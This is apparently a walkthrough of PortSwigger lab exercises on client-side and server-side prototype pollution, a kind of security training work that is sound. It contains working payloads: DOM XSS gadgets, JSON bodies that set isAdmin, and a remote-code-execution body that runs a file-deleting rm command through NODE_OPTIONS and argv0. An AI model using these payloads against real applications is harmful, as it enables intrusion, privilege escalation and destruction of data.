02 DOM XSS via an alternative prototype pollution vector
========================================================

This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve
the lab:

Find a source that you can use to add arbitrary properties to the global
Object.prototype.

Identify a gadget property that allows you to execute arbitrary JavaScript.

Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you.

Hint: Pay attention to the XSS context. You need to adjust your payload slightly
to ensure that the JavaScript syntax remains valid following your injection.

References:

-   https://portswigger.net/web-security/prototype-pollution/client-side



There are some scripts imported when searching:



This is the file “/resources/js/searchLoggerAlternative.js”:



When accessing “/?search=aaa&__proto__.foo=bar”, Object.prototype has the field
“foo”:



We can change it to “sequence” searching “/?search=aaa&__proto__.sequence=bar”.
There is a problem in the eval() function stating “bar1 does not exist”:



That is because of these lines:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
let a = manager.sequence || 1;
manager.sequence = a + 1;
eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

It is necessary to add “-”, the request is
"/?search=aaa&__proto__.sequence=alert(1)-":







03 Client-side prototype pollution via flawed sanitization
==========================================================

This lab is vulnerable to DOM XSS via client-side prototype pollution. Although
the developers have implemented measures to prevent prototype pollution, these
can be easily bypassed.

To solve the lab:

Find a source that you can use to add arbitrary properties to the global
Object.prototype.

Identify a gadget property that allows you to execute arbitrary JavaScript.

Combine these to call alert().

References:

-   https://portswigger.net/web-security/prototype-pollution/client-side



There are two scripts imported in the home page:



This is “/resources/js/searchLoggerFiltered.js”. It suffers the same problem
that one previous lab with “transport_url”:



Knowing the sanitization from the santizeKey() function, we can try a payload
like:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/?__pro__proto__to__[transport_url]=bar
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

And the value in Object.prototype is correct:



Finally:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/?__pro__proto__to__[transport_url]=data:,alert(1);
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



05 Client-side prototype pollution via browser APIs
===================================================

This lab is vulnerable to DOM XSS via client-side prototype pollution. The
website's developers have noticed a potential gadget and attempted to patch it.
However, you can bypass the measures they've taken.

To solve the lab:

Find a source that you can use to add arbitrary properties to the global
Object.prototype.

Identify a gadget property that allows you to execute arbitrary JavaScript.

Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you.

This lab is based on real-world vulnerabilities discovered by PortSwigger
Research. For more details, check out Widespread prototype pollution gadgets by
Gareth Heyes.

References:

-   https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis





\---------------------------------------------

There are 2 Javascripts scripts imported:



File “/resources/js/searchLoggerConfigurable.js”:



The developers used Object.defineProperty() to avoid parameter pollution. From
the notes, "Developers with some knowledge of prototype pollution may attempt to
block potential gadgets by using the Object.defineProperty() method. This
enables you to set a non-configurable, non-writable property directly on the
affected object as follows. (...) In this case, an attacker may be able to
bypass this defense by polluting Object.prototype with a malicious value
property. If this is inherited by the descriptor object passed to
Object.defineProperty(), the attacker-controlled value may be assigned to the
gadget property after all".

So instead of using “transport_url” we will use “value”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/?__proto__[value]=bar
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



And then execute an alert(1):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/?__proto__[value]=data:,alert(1)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~







The request is “/?**proto**[value]=data%3A%2Calert%281%29”:



06 Privilege escalation via server-side prototype pollution
===========================================================

This lab is built on Node.js and the Express framework. It is vulnerable to
server-side prototype pollution because it unsafely merges user-controllable
input into a server-side JavaScript object. This is simple to detect because any
polluted properties inherited via the prototype chain are visible in an HTTP
response.

To solve the lab:

-   Find a prototype pollution source that you can use to add arbitrary
    properties to the global Object.prototype.

-   Identify a gadget property that you can use to escalate your privileges.

-   Access the admin panel and delete the user carlos.

You can log in to your own account with the following credentials: wiener:peter

Note: When testing for server-side prototype pollution, it's possible to break
application functionality or even bring down the server completely. If this
happens to your lab, you can manually restart the server using the button
provided in the lab banner. Remember that you're unlikely to have this option
when testing real websites, so you should always use caution.

References:

-   https://portswigger.net/web-security/prototype-pollution/server-side





The login credentials are sent inside a JSON object but the value is not
reflected:

It is possible to add data in the “update address” functionality:

It gets reflected:

In this page there is a Javascript script imported:

File “/resources/js/updateAddress.js”:

It is possible to update the “isAdmin” value even though it is not reflected in
the page (we see in the code it gets filtered):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-address HTTP/2
...

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"e6Z5ouDA9AodwILfR7nGgH2nYPtPLzyE","__proto__":{        "isAdmin":true    }}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

07 Detecting server-side prototype pollution without polluted property reflection
=================================================================================

This lab is built on Node.js and the Express framework. It is vulnerable to
server-side prototype pollution because it unsafely merges user-controllable
input into a server-side JavaScript object.

To solve the lab, confirm the vulnerability by polluting Object.prototype in a
way that triggers a noticeable but non-destructive change in the server's
behavior. As this lab is designed to help you practice non-destructive detection
techniques, you don't need to progress to exploitation.

You can log in to your own account with the following credentials: wiener:peter

Note: When testing for server-side prototype pollution, it's possible to break
application functionality or even bring down the server completely. If this
happens to your lab, you can manually restart the server using the button
provided in the lab banner. Remember that you're unlikely to have this option
when testing real websites, so you should always use caution.

References:

-   https://portswigger.net/web-security/prototype-pollution/server-side









It is possible to update the charset:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-address HTTP/2
...

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"+AGYAbwBv-","sessionId":"GBF3M0MGldLBwDhhruxk8a4GKGNX5ju0","__proto__":{"content-type": "application/json; charset=utf-7"}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Now the value "+AGYAbwBv-" is interpreted as “foo”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-address HTTP/2
...

{"address_line_1":"+AGYAbwBv-","address_line_2":"+AGYAbwBv-","city":"+AGYAbwBv-","postcode":"+AGYAbwBv-","country":"+AGYAbwBv-","sessionId":"GBF3M0MGldLBwDhhruxk8a4GKGNX5ju0"}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



08 Bypassing flawed input filters for server-side prototype pollution
=====================================================================

This lab is built on Node.js and the Express framework. It is vulnerable to
server-side prototype pollution because it unsafely merges user-controllable
input into a server-side JavaScript object.

To solve the lab:

-   Find a prototype pollution source that you can use to add arbitrary
    properties to the global Object.prototype.

-   Identify a gadget property that you can use to escalate your privileges.

-   Access the admin panel and delete the user carlos.

-   You can log in to your own account with the following credentials:
    wiener:peter

Note: When testing for server-side prototype pollution, it's possible to break
application functionality or even bring down the server completely. If this
happens to your lab, you can manually restart the server using the button
provided in the lab banner. Remember that you're unlikely to have this option
when testing real websites, so you should always use caution.

References:

-   https://portswigger.net/web-security/prototype-pollution/server-side



After interacting with the application I launched the extension:



It finds the vulnerability:



It looks like the extension added many fields:



In the update address page there is a Javascript script imported:

File “/resources/js/updateAddress.js”:



We can change most values but not “isAdmin”. From the notes, "an attacker can
access the prototype via the constructor property instead of \__proto__"

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-address HTTP/2
...

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UKKKKKK","sessionId":"PDKi3aQnLAV0M8OWcB6qLExhgub4zcGW","constructor":{"prototype":{"isAdmin":true}}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



09 Remote code execution via server-side prototype pollution
============================================================

This lab is built on Node.js and the Express framework. It is vulnerable to
server-side prototype pollution because it unsafely merges user-controllable
input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute
Object.prototype in such a way that you can inject arbitrary system commands
that are subsequently executed on the server.

To solve the lab:

-   Find a prototype pollution source that you can use to add arbitrary
    properties to the global Object.prototype.

-   Identify a gadget that you can use to inject and execute arbitrary system
    commands.

-   Trigger remote execution of a command that deletes the file
    /home/carlos/morale.txt.

In this lab, you already have escalated privileges, giving you access to admin
functionality. You can log in to your own account with the following
credentials: wiener:peter

Hint: The command execution sink is only invoked when an admin user triggers
vulnerable functionality on the site.

Note: When testing for server-side prototype pollution, it's possible to break
application functionality or even bring down the server completely. If this
happens to your lab, you can manually restart the server using the button
provided in the lab banner. Remember that you're unlikely to have this option
when testing real websites, so you should always use caution.

References:

-   https://portswigger.net/web-security/prototype-pollution/server-side

-   https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce



First I set the “shell” and “NODE_OPTIONS” properties so any time a process is
created there is a DNS request to a Burp collaborator domain:



In /admin, click “Run maintenance jobs”:



And the domain is resolved:



After some trial and error I could execute a command to delete the file with
this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-address HTTP/2

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"9w2wz2qtX8He4ofWjxuo5Lv3cGj49UjN","__proto__": {  "shell":"",    "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\"child_process\").execSync(\"rm /home/carlos/morale.txt\").toString())//"}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


